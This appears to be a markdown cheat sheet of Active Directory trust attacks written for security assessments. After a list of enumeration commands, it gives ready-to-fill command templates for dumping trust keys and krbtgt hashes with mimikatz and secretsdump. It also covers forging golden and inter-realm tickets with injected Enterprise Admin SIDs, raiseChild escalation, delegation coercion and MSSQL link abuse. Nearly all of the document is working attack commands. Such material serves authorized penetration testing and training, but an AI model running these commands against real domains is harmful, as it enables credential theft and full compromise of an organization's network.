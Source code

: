 ```yaml
---
title: "Trusts"
description: "Trusts techniques and commands for Active Directory security assessment."
---
```

## Enumeration
- `nltest.exe /trusted_domains`
- `([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()`
- `Get-DomainTrust -Domain <domain>`
- `Get-DomainTrustMapping`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> trusts`
- `sharphound.exe -c trusts -d <domain>`
  - `MATCH p=(:Domain)-[:TrustedBy]->(:Domain) RETURN p`
- Get Domains SID
  - `Get-DomainSID -Domain <domain> Get-DomainSID -Domain <target_domain>` 
  - `lookupsid.py -domain-sids <domain>/<user>:<password>'@<dc> 0 lookupsid.py -domain-sids <domain>/<user>:<password>'@<target_dc> 0`

## Child->Parent
- Trust Key >>> PassTheTicket
  - `mimikatz lsadump::trust /patch`
    - `mimikatz kerberos::golden /user:Administrator /domain:<domain> /sid:<domain_sid> /aes256:<trust_key_aes256> /sids:<target_domain_sid>-519 /service:krbtgt /target:<target_domain> /ptt`
  - `secretsdump.py -just-dc-user '<parent_domain>$'   <domain>/<user>:<password>@<dc_ip>`
    - `ticketer.py -nthash <trust_key> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 -spn krbtgt/<parent_domain> trustfakeuser`

- Golden Ticket >>> PassTheTicket
  - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
    - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID-519> /ptt`
  - `raiseChild.py <child_domain>/<user>:<password>`
  - `ticketer.py -nthash <child_krbtgt_hash> -domain-sid <child_sid> -domain <child_domain> -extra-sid <parent_sid>-519 goldenuser`

- Unconstrained delegation
  - coerce parent_dc on child_dc domain >>> unconstrained delegation

## Parent->Child
- same as Child to parent

## External Trust 
- DomainA <--> DomainB trust (B trust A, A trust B)
  - from A to B FOREST_TRANSITIVE
    - password reuse >>> lat move (creds/pth/...)
    - Foreign group and users >>> ACL
      - Users with foreign Domain Group Membership
        - `MATCH p=(n:User {domain:"<DOMAIN.FQDN>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain RETURN p`
      - Group with foreign Domain Group Membership
        - `MATCH p=(n:Group {domain:"<DOMAIN.FQDN>"})-[:MemberOf]->(m:Group) WHERE m.domain<>n.domain RETURN p`
    - SID History on B >>> PassTheTicket
      - Golden ticket
        - `mimikatz lsadump::dcsync /domain:<domain> /user:<domain>\krbtgt`
          - `mimikatz kerberos::golden /user:Administrator /krbtgt:<HASH_KRBTGT> /domain:<domain> /sid:<user_sid> /sids:<RootDomainSID>-<GROUP_SID_SUP_1000> /ptt`
        - `ticketer.py -nthash <krbtgt> -domain-sid <domain_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> fakeuser`
      - Trust ticket
        - `secretsdump.py -just-dc-user '<domainB>' <domainA>/<user>:'<password>'@<dc_a>`
          - `ticketer.py -nthash <trust_hash> -domain-sid <sid_a> -domain <domain_a> -extra-sid <domain_b_sid>-<group_sid sup 1000> -spn krbtgt/<domain_a> fakeuser`
    - ADCS abuse >>> ADCS
  - from A to B is FOREST_TRANSITIVE|TREAT_AS_EXTERNAL
      - Unconstrained delegation
        - coerce dc_b on dc_a >>> unconstrained delegation
        
- DomainA <-- DomainB trust (B trust A / A access B)
  - Same as double trust, but no unconstrained delegation as B can't connect to A

- DomainA --> DomainB trust (A trust B / B access A)
  - password reuse >>> lat move (creds/pth/...)

## Mssql links >>> MSSQL
- MSSQL trusted links doesn't care of trust link
  - `Get-SQLServerLinkCrawl -username <user> -password <pass> -Verbose -Instance <sql_instance>`
  - `mssqlclient.py -windows-auth <domain>/<user>:<password>@<ip>`
    - trustlink
      - sp_linkedservers
        - use_link